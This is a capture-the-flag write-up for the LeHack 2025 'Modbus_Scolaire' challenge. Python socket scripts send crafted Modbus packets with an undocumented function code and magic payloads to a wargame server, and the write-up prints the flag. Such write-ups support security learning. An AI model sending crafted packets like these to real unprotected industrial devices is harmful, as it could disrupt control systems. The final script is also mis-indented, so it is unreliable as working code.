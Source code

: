 # LeHack 2025 Wargame modbus_scolaire writeup
This is my writeup for the LeHack Wargame 2025 challenge Modbus_Scolaire.

## Challenge description
Un unprotected modbus server is freely responding on the network. Can you break it? Flag format : LeHACK{the_flag}

Basic modbus packets will look like this :

    \x00\x01 Transaction ID
    \x00\x00 Protocol ID
    \x00\x0A Length: 10 bytes after this field
    \x01 Unit ID

-> Function code : 1 byte

-> Payload : the rest

modbus_scolaire.wargame.rocks:1502

Direct bruteforce is not recommended : the amount of combinations is above 10^{12} and we close at 8:00 AM

## Google what a function code does
Modbus function codes are 8 bit long numerical identifiers that dictate the specific operations performed by a Modbus device. These codes instruct the slave device on actions like reading or writing data to coils or registers. They are part of the Protocol Data Unit (PDU) within a Modbus message. 
Modbus has these common function codes:
| Function Code | Description             |
|---------------|-------------------------|
| 0x01          | Read Coils              |
| 0x02          | Read Discrete Inputs    |
| 0x03          | Read Holding Registers  |
| 0x04          | Read Input Registers    |
| 0x05          | Write Single Coil       |
| 0x06          | Write Single Register   |
| 0x0F          | Write Multiple Coils    |

## Communicate with modbus server

Start by initiating normal contact

  ```python
import socket
  
HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

packet = (
    b'\x00\x01'  # Transaction ID
    b'\x00\x00'  # Protocol ID
    b'\x00\x0A'  # Length (10 bytes after this)
    b'\x01'      # Unit ID
    b'\x01'      # Function Code: Read Coils
)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.sendall(packet)
    data = s.recv(1024)
    print("Received:", data)
```
Response:
`Ack`
--> Cool, modbus notices us.
Loop through all of the function codes and realise this is not the way, everything only gives back `Ack`. 
Try out funny numbers as function code like `\x69` or `\x42`.
`\x42` actually changes the response to `func42............`!
Progress!

## Prepare different payloads
So we know the rest of the payload is 8 bits long, let's prepare a list of payloads!
  ```python
import socket

HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

test_payloads = [
    b'\x00\x00\x00\x01\x00\x00\x00\x00',  # read 1 register at 0
    b'\x00\x00\x00\x08\x00\x00\x00\x00',  # read 8 registers at 0
    b'\x13\x37\x00\x01\x00\x00\x00\x00',  # leet + read 1
    b'\xDE\xAD\xBE\xEF\x00\x00\x00\x01',  # hex magic

]

for payload in test_payloads:
    packet = (
        b'\x00\x01' +               # Transaction ID
        b'\x00\x00' +               # Protocol ID
        b'\x00\xFF' +               # Length (10 bytes after this field)
        b'\x01' +                   # Unit ID
        b'\x42' +                   # Function code 0x42
        payload                     # 8 bytes payload
    )

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.sendall(packet)
        data = s.recv(1024)
        print(f"Sent payload: {payload} | Received: {data}")

```

Responses
```shell

Sent payload: b'\x00\x00\x00\x01\x00\x00\x00\x00' | Received: b'func42............\n'
Sent payload: b'\x00\x00\x00\x08\x00\x00\x00\x00' | Received: b'func42............\n'
Sent payload: b'\x13\x37\x00\x01\x00\x00\x00\x00' | Received: b'func421955......\n'
Sent payload: b'\xde\xad\xbe\xef\x00\x00\x00\x01' | Received: b'func42......190239\n'
```
Oh hello there, seems like we're halfway there.

## Combine the working payloads to one
Try around different variations of payload until you're sure that the relevant parts are `\x13\x37\` and `\xBE\xEF`

## Final working file
```python
import socket

HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

payload = b'\x13\x37\xBE\xEF\x01\x00\x00\x00'


  packet = (
      b'\x00\x01' +               # Transaction ID
      b'\x00\x00' +               # Protocol ID
      b'\x00\xFF' +               # Length (10 bytes after this field)
      b'\x01' +                   # Unit ID
      b'\x42' +                   # Function code 0x42
      payload                     # 8 bytes payload
  )

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.sendall(packet)
        data = s.recv(1024)
        print(f"Sent payload: {payload} | Received: {data}")

```
Get the flag `LeHACK{unsafe_modbus_packets_4_win}`
